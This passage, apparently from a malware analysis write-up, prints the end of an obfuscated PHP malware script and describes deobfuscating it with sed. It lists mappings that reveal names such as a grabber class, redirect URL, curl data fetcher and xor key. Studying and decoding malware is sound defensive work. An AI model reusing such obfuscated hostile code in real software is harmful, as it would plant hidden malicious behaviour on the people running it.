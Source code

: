 ```php
			if (!$this->_85a7k()){
				if ($this->_3krbm()){
					return;
				}
			}
			$_m2ht28x6 = _zh7q3s::_5s97u($_5oudn589);
			if (empty($_m2ht28x6)){
				list($_f0y2sncy, $_4o6wrpay) = $this->_bem0h($_5oudn589);
				if (empty($_4o6wrpay)){
					return;
				}
				$_m2ht28x6 = new _zh7q3s($_f0y2sncy, $_4o6wrpay, $_5oudn589, _abtwpw0::_1vrgw(_abtwpw0::$_mztoxj8u, _abtwpw0::$_92r2gln1));
				$_m2ht28x6->_79py7();
			}
			echo $_m2ht28x6->_zg7my();
		}
	}
}

_zh7q3s::_wu68f(dirname(__FILE__), -1, _abtwpw0::$_gc26w45m);
_royr5j::_wu68f(dirname(__FILE__), substr(md5(_abtwpw0::$_gc26w45m . "salt1"), 0, 4));
_zsop1pp::_wu68f(dirname(__FILE__), substr(md5(_abtwpw0::$_gc26w45m . "salt2"), 0, 4));
_abtwpw0::_jebhw();
$_6b5ok2i8 = new _abtwpw0();
if ($_6b5ok2i8->_mn403()){
	$_6b5ok2i8->_t31lu();
}
exit();
```

In order to decode the malware, I used the sed command a lot. Since I had piped this in to a file called "f2.php", I kept my sed instructions in a file, so if I made a mistake, or had a better name for something, I could change it. It also helped with making sure I wasn't using the same variable twice, as that could be even more confusing.

The sed command I ran after figuring out a piece of the puzzle was:

```bash
cat f2.php | sed -f ./f-fix.sed > f3.php
```

My final sed file contained:

```bash
s/_q7nz6eha/ch/g
s/_2bza6/getcurldata/g
s/_fj3v9zd1/url/g
s/_pdo1wxsa/data/g
s/_sxg6rwqh/webdata/g
s/_10bot499/headers/g
s/_m5fzv/getfileurldata/g
s/_wjqehzzq/headerdata/g
s/_759k0624/ipval/g
s/_5es9r/getdata/g
s/_19g0vs2/grabberclass/g
s/_2vjoa/scottornot/g
s/_l8rv0m91/URI/g
s/_u08raxie/redirurl/g
s/_ibktrama/pageurl/g
s/_4ltmr/xor/g
s/_xdn6ddo5/i/g
s/_emmj452e/j/g
s/_coldw/populateheader/g
s/_gc26w45m/uid/g
s/_sgii98xz/key/g
```